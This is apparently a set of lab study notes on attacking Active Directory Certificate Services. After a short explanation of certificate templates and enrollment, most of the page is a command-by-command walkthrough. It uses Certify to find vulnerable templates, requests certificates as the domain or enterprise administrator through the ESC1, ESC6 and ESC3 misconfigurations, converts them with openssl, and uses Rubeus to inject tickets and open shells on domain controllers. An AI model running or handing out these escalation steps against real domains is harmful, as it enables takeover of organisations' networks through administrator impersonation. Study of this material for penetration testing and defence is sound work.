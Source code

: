 # AD CS
Active Directory Certificate Services (AD CS) enables use of Public Key Infrastructure (PKI) in active directory forest. AD CS helps in authenticating users and machines, encrypting and signing documents, filesystem, emails and more. AD CS is the Server Role that allows you to build a public key infrastructure (PKI) and provide public key cryptography, digital certificates, and digital signature capabilities for your organization.

## Certificate Template
Certificate templates in Active Directory Certificate Services (AD CS) are preconfigured certificate request templates that define the properties and characteristics of certificates issued by the AD CS infrastructure. These templates serve as blueprints for generating and managing various types of certificates within an organization.They define key elements such as certificate purpose, key usage, validity period, subject name format, and other extensions. By using certificate templates, administrators can simplify the process of requesting and issuing certificates, ensuring compliance with security policies and regulatory requirements.

## AD CS components

- CA(Certificate Autority): Here, the server with the AD CS role is the certificate authority, usually DC is the certificate authority. Certificate Authority issues the certificate.
- Certificate: This is issued to the user or machine by the CA and can be used for authentication, encryption, signing, etc
- CSR(Certificate Signing Request or asking for a certificate): This is Certificate Signing Request made by the client to the Certificate Authority(CA) to request a certificate.
- Certificate Template: It defines settings for a certificate. Contains information like enrolment permission, EKUs, expiry, etc
- EKU OIDs: Extended Key Usage Object Identifiers. These dictate the use of a certificate template(client authentication, smart card logon, subCA, etc)

## Working 
- The client generates public/private key pair
- Client sends Certificate Signing Request(CSR) to the CA(Certificate Authority) which contains the template(eg: for code signing), Subject(user who requested), EKU and their public key
- The CA(Certificate Authority) verifies the CSR if the template exists, If the user requires approval, if the user has permission and so on.
- The CA generates a certificate and signs it using the CA private key.
- CLient stores the certificate in Windows Certificate Store and uses it for their purpose.

## Abusing AD CS
- Extracting user and machine certificates
- Use the certificates to retrive NTLM hash
- User and machine level persistance
- Escalation to Domain Admin and Enterprise Admin
- Domain persistance

## We can use the Certify tool (https://github.com/GhostPack/Certify) to enumerate (and for other attacks) AD CS in the target forest:
```
certify.exe cas
```
## Enumerate vulnerable templates:
```
Certify.exe find /vulnerable
```
## Common Vulnerable scenrios

- Any certificate template which allows domain users enrollment rights along with pkiextendedkeyusage property as Certificate Request Agent is considered vulnerable which allows to request certificate on behalf of other users.

- CA allows normal/low privileged user enrollment rights Allow Enroll: NT Authority\ Authenticated Users

## ESC1(Enrolee can request cert for ANY user)
This allows escalation of privilege for a domain admin since enrolee can request certificate for a domain admin.
```
Certify.exe find /enrolleeSuppliesSubject
```
Check for properties msPKI-Certificates-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT then check Enrollment Rights property if we can see our user or group where our compromised user is a part of. The template "HTTPSCertificates" allows enrollment to the RDPUsersgroup.Request a certificate for DA (or EA) as student

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```
Now copy paste the certificate and save as anything.pem and convert this pem to pfx using windows version of openssl.
```
openssl.exe pkcs12 -in C:\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\Tools\esc1.pfx
```
Enter password as anything and Ignore the unable to write 'random state' message and use Rubeus to request TGT for Domain Administrator or the Enterprise Administrator
```
Rubeus.exe asktgt /user:administrator /certificate:C:\Tools\esc1.pfx /password:SecretPass@123 /ptt
```
```
winrs -r:dcorp-dc cmd
```

## Same way we can also request certificate for the administrator of mneycorp.local also called Enterprise Administrator here only difference is the altname parameter.
```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```
```
openssl.exe pkcs12 -in C:\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\Tools\esc1-EA.pfx
```
- Note the dc parameter here.
```
Rubeus.exe asktgt /user:moneycorp.local/Administrator /dc:mcorp-dc.moneycorp.local /certificate:C:\Tools\esc1-EA.pfx /password:SecretPass@123 /ptt
```
```
winrs -r:mcorp-dc cmd
```

## ESC6(EDITF_ATTRIBUTESUBJECTALTNAME2 setting on CA -Request certs for ANY user)

If the certificate authority(CA) has EDITF_ATTRIBUTESUBJECTALTNAME2 flag set. This means that we can request a certificate for ANY user from a template that allow enrollment for normal/low-privileged users. Here, the template "CA-Integration" grants enrollment to RDPUsers group. Request certificate as DA or EA as student user.
```
Certify.exe find
```
```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"CA-Integration" /altname:administrator
```
- Convert from cert.pemto pfx(esc6.pfx below) and use it to request a TGT for DA (or EA).
```
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:SecretPass@123 /ptt
```

## ESC3 (Request an enrollmentagent certificate and use it to request cert on behalf of ANY user)
If a template allows Domain users to enroll and has "Certificate Request Agent" EKU. 
```
Certify.exe find /vulnerable
```
if a template has an Application Policy Issuance Requirement of Certificate Request Agent and has an EKU that allows for domain authentication. Search for domain authentication EKU:
 ```
Certify.exe find /json /outfile:C:\AD\Tools\file.json 
 ```
 ```
((Get-Content C:\AD\Tools\file.json | ConvertFrom-Json).CertificateTemplates | ? {$_.ExtendedKeyUsage -contains "1.3.6.1.5.5.7.3.2"}) | fl * 
 ```
 - Escalation to DA
 ```
 Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent
 ```
 - Convert from cert.pemto pfx(esc3agent.pfx below) and use it to request a certificate on behalf of DA using the "SmartCardEnrollment-Users" template.
 ```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA/template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator/enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
 ```
- Convert from cert.pemto pfx(esc3user-DA.pfx below), request DA TGT and inject it:
```
Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt
```
